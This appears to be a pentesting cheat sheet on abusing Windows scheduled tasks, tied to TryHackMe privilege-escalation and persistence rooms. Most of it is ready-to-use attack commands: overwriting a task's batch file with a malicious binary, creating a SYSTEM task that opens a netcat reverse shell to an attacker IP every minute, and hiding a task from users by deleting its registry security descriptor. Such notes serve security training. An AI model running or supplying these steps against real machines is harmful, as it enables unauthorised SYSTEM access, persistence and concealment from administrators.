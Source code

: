 # Exploiting Windows Tasks
```powershell
# List scheduled tasks
#
schtasks

# View details about a scheduled task
#
schtasks /query /tn $TASK_NAME /fo list /v

# Check the permissions of an executable
#
icacls $PATH_TO_BINARY

# Modify the permissions (if possible/desired)
#
icacls $PATH_TO_BINARY /grant $GROUP:$PERMISSION

# You can overwrite files in Windows in the same way you’d do
# in Linux (however, this can cause issues with line endings...
# probably best to just use notepad.exe here instead)
#
echo $MALICIOUS_BINARY_AND_ARGUMENTS > $PATH_TO_BAT_TO_OVERWRITE

# Force a task to run (iff the current user has permission to
# do so)
#
schtasks /run /tn $TASK_NAME
```

If a task points to a file that you’ve obtained write access to, then that file can be altered without changing the underlying task.

It may also be possible to create your own tasks.

```powershell
# Creates a task that executes a netcat reverse shell back to
# the attacker. “/sc” and “/mo” indicate that the task should
# be run every minute. “/ru” indicates that the task will run
# with SYSTEM privileges.
#
schtasks /create /sc minute /mo 1 /tn $TASK_NAME `
	/tr “$PATH_TO_NETCAT -e cmd.exe $ATTACKER_IP $ATTACKER_PORT” `
	/ru SYSTEM

# Checks to see if the task was created successfully.
#
schtasks /query /tn $TASK_NAME
```

### Additional Resources
* [schtasks commands (Microsoft Documentation)](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks)
* [TryHackMe: Windows Privilege Escalation](https://tryhackme.com/room/windowsprivesc20)

## Stealthy Tasks
Deleting the task **Security Descriptor** will make the task invisible to any user in the system.

1. Use `PsExec64.exe -s -i regedit` to open regedit with SYSTEM privileges.

2. Search in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\` for the task to hide. Under the key for that task, there will be a value named `SD` that contains the security descriptor. Simply delete it.

### Additional Resources
* [TryHackMe: Windows Local Persistence](https://tryhackme.com/room/windowslocalpersistence) 
